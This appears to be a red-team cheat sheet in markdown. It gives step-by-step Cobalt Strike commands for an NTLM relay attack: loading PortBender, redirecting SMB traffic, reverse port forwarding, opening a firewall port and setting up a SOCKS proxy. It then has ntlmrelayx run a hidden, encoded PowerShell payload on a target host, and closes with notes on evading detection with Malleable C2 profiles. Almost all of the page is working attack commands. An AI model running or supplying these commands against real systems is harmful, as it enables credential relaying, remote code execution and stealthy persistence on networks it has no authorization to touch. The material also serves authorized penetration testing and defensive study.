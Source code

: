 #### Load portbender.cna
- Load `PortBender.cna` this adds a new PortBender command to the console in Cobalt strike -> Script Manager
- Breaks SMB service on the machine, also SMB Beacons. 
- Create the appropriate inbound firewall rules for 445 (file sharing is disabled by default), 8445, and 8080.
```
help PortBender
PortBender redirect 445 8445
```

#### Create port forward
- Create a reverse port forward that will then relay the traffic from port 8445 to port 445 on the Team Server (where ntlmrelayx will be waiting).
```
rportfwd 8445 127.0.0.1 445
```

#### Allow 8445 firewall
```
powershell New-NetFirewallRule -DisplayName "Test Rule" -Profile Domain -Direction Inbound -Action Allow -Protocol TCP -LocalPort 8445
```

#### Create sockx proxy
```
socks 1080 socks5 disableNoAuth socks_user socks_password
```

#### NTLMRelay execute command
```
sudo proxychains ntlmrelayx.py -t smb://<TARGET IP> -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -enc <PAYLOAD>'
```

#### Stop portbender
```
jobs
jobkill <JID>
kill <PID>
```
 
## Evasion
### Malleable C2 profile
- Example: https://github.com/Cobalt-Strike/Malleable-C2-Profiles
- Changes to C2 profile requires teamserver restart and a new beacon!
- Good changes: https://github.com/WKL-Sec/Malleable-CS-Profiles

#### Check profile for errors
```
./c2lint <PROFILE>
```
